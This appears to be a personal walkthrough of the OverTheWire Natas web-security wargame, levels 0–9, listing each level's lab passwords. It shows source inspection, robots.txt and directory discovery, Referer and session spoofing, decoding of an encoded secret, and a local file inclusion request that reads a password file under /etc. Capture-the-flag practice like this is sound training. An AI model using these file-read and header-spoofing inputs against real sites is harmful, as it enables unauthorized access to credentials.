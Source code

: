 # Natas


## What we Learned

- the `robots.txt` file tells the search engine crawlers which URLs can be 
  accessed
- If the browser doesn't know where we came from, it's probably because there was a problem in the Referer

### Level 0 

Goal: Inspect the source code to find the flag

```
Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org

<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
```

Flag: `g9D9cREhslqBKtcA2uocGHPfMZVzeFK6`


### Level 0 -> Level 1

Goal: Inspect page source even though "right click is blocked" ie try it even 
	though it says it doesn't work

```
Username: natas1
URL:      http://natas1.natas.labs.overthewire.org

<!--The password for natas2 is h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7 -->

```

Flag: `h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7`


### Level 1 -> Level 2

Goal: Check page source to find firectory and files we can access

```
Username: natas2
URL:      http://natas2.natas.labs.overthewire.org

<img src="files/pixel.png">
</div>
</body></html>

>>> http://natas2.natas.labs.overthewire.org/files
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="users.txt">users.txt</a></td><td align="right">2022-09-01 06:27  </td><td align="right">145 </td><td>&nbsp;</td></tr>

We click on users.txt to find

# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

Flag: `G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q`


### Level 2 -> Level 3

Goal: Find disallowed URLs in search crawlers inside `robots.txt`

```
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org

>>> http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/

>>> http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

```

Flag: `tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm`

%% ------------------------------------------------------------------

### Level 3 -> Level 4

Goal: modify HTTP header `Referer` so that the url knows where we come from. 

[HTTP Referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer)

```
Username: natas4
URL:      http://natas4.natas.labs.overthewire.org

>>> python3 natas4.py
Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

```

Flag: `Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD`


%% ------------------------------------------------------------------

### Level 4 -> Level 5

Goal: when we are not logged in, it may not have remembered our session

```
Username: natas5
URL:      http://natas5.natas.labs.overthewire.org

>>> python3 natas5.py
Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR</div>

```

Flag: `fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR`


%% ------------------------------------------------------------------

### Level 5 -> Level 6

Goal: 

```
Username: natas6
URL:      http://natas6.natas.labs.overthewire.org

1. Inspect source code

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

2. go to http://natas6.natas.labs.overthewire.org/includes/secret.inc and inspect source code

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

3. submit secret 
Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr 

```

Flag: `jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr`


%% ------------------------------------------------------------------

### Level 6 -> Level 7

Goal: 

```
Username: natas7
URL:      http://natas7.natas.labs.overthewire.org

1. Inside source code
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

2. find password
>>> http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 

```

Flag: `a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB `


%% ------------------------------------------------------------------

### Level 7 -> Level 8

Goal: 

```
Username: natas8
URL:      http://natas8.natas.labs.overthewire.org

1. inside source code

<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

base64_encode: encode secret using base64
strrev: reverse string
bin2hex: convert ascii string to hexadecimal
hex2bin: xxd -r -p

2. find secret: hex2bin > strrev > base64

>>> echo "3d3d516343746d4d6d6c315669563362" | xxd -r -p | rev | base64 -d
oubWYf2kBq

or 

>>> natas8.php
echo(base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362" ))));
oubWYf2kBq

3. submit secret
Access granted. The password for natas9 is Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd 

```

Flag: `Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`


